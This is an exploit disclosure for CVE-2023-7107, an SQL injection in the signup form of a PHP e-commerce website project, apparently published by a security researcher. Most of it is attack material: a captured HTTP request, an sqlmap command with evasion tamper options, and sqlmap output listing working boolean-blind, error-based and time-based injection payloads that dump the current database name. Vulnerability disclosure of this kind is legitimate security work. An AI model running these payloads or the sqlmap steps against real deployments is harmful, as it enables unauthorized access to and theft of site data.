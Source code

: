 # CVE-2023-7107_E-Commerce Website - SQL Injection 3
+ **Exploit Title:** CVE-2023-7107_E-Commerce Website - SQL Injection 3
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7107

## References: 
+ **CVE-2023-7107:** https://vuldb.com/?id.249002
+ https://www.cve.org/CVERecord?id=CVE-2023-7107
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7107

##  Description:
E-Commerce Website 1.0 allows SQL Injection via parameters 'firstname', 'middlename', 'email', 'address', 'contact' and 'username' in "/Electricks/Electricks-shop/pages/user_signup.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the user registration form: "http://localhost/Electricks/Electricks-shop/pages/user_signup.php"
+ Fill the the all form and click Create Account button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /Electricks/Electricks-shop/pages/user_signup.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 427
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sdqvs3v86m3s0vdqik7c5uah4g
Referer: http://localhost/Electricks/Electricks-shop/pages/user_signup.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

submit=test&address=test&username=Test&email=test%40example.com&lastname=Test&middlename=Test&firstname=Test&contact=test&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use sequencely 'firstname', 'middlename', 'email', 'address', 'contact' and 'username' parameters to dump the database. 
```
python sqlmap.py -r r.txt -p firstname --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
```

```
---
Parameter: firstname (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x4675586a WHERE 8114=8114 AND 5578=5578)||'&contact=test&password=Pass

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x59676a78 WHERE 1465=1465 AND (SELECT 6021 FROM(SELECT COUNT(*),CONCAT(0x7170707671,(SELECT (ELT(6021=6021,1))),0x717a707171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&contact=test&password=Pass

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x4a6a6e4b WHERE 2213=2213 AND (SELECT 8358 FROM (SELECT(SLEEP(5)))jkvt))||'&contact=test&password=Pass
---
[22:05:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:05:28] [INFO] fetching current database
[22:05:28] [INFO] resumed: 'electricks'
current database: 'electricks'
```

+ current database: `electricks`
![4](https://github.com/h4md153v63n/CVEs/assets/5091265/bfffd456-06bc-42e9-b55e-ee361a6b8fb6)
